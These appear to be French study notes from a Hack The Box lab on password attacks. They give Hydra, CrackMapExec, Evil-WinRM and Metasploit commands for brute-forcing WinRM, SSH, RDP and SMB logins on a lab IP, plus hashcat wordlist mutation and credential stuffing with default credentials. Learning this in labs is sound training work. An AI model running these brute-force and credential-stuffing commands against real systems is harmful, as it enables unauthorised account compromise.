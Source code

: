 # Service Réseau
De nombreux serveurs sont gérés à distance à travers le réseau.
Les services les plus utilisés sont **RDP, WinRM et SSH**.

## WinRM (Windows Remote Management) : port 5985, 5986
C'est l'implémentation de Microsoft du protocol WS-Management.
Il permet de gérer des systèmes windows en utilisant le protocole **SOAP**.
Il est désactivé par défaut sur Windows 10.

## CrackMapExec

```console
Misoko@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
La présence de **(Pwn3d!)** signifie qu'on a accès à un compte utilisateur.

## Evil-WinRM
Un autre outil pour communiquer avec WinRM.
```console
Misoko@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```

## SSH
### Hydra - SSH
```console
Misoko@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197
```

## RDP (Remote Desktop Protocol) : 3389
C'est un protocol permettant la connection à distance aux systèmes Windows.

### Hydra - RDP

```console
Misoko@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```

### xFreeRDP
Il existe de nombreux clients pour communiquer par RDP. 
On a pas exemple xFreeRDP avec la syntaxe suivante :
```console
Misoko@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

## SMB
Protocole responsable pour le transfert de données entre un client et serveur au sein d'un réseau local.
On peut utiliser hydra pour SMB également.

### Hydra - SMB
```console
Misoko@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

### Metasploit Framework


```console
Misoko@htb[/htb]$ msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
msf6 auxiliary(scanner/smb/smb_login) > run
```
### CrackMapExec
Nous pouvons voir les ressources partagées ainsi que leur privilèges avec CrackMapExec
```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

### smbClient

```console
Misoko@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```


# Mutation de mot de passe

hashcat permet de créer des mutations de mots de passe basée sur une liste donnée et des règles implémentées dans un fichier qui ont la forme :
| Fonction | Description                                                        |
|----------|--------------------------------------------------------------------|
| :        | Ne faites rien.                                                    |
| l        | Toutes les lettres minuscules.                                     |
| u        | Mettre toutes les lettres en majuscules.                           |
| c        | Mettre en majuscule la première lettre et en minuscule les autres. |
| sXY      | Remplacer toutes les occurrences de X par Y.                       |
| $!       | Ajouter le caractère d'exclamation à la fin.                       |

Chaque règle est écrite sur une nouvelle ligne et décrit comment les mots doivent être mutés.
### Génération de la liste de mots à partir d'une règle
```console
Misoko@htb[/htb]$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```
**Hashcat** et **John** possèdent des listes de règles prédéfinies dont **best64.rule** qui donne de bons résultats.

### Règles Hashcat existantes
```console
Misoko@htb[/htb]$ ls /usr/share/hashcat/rules/
```


# Réutilisation de MDP / MDP par défaut.

Des mots de passes par défaut sont souvent utilisés.
Voir [DefaultCreds-Cheat-Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet) pour avoir une liste.

Le fait d'attaquer ces services avec les credentials par défaut s'appelle le **Credential Stuffing**.

## Credential Stuffing - Syntaxe de Hydra
```console
Misoko@htb[/htb]$ hydra -C <user_pass.list> <protocol>://<IP>
```
Il existe également des listes pour les routeurs comme [celle-ci](https://www.softwaretestinghelp.com/default-router-username-and-password-list/).



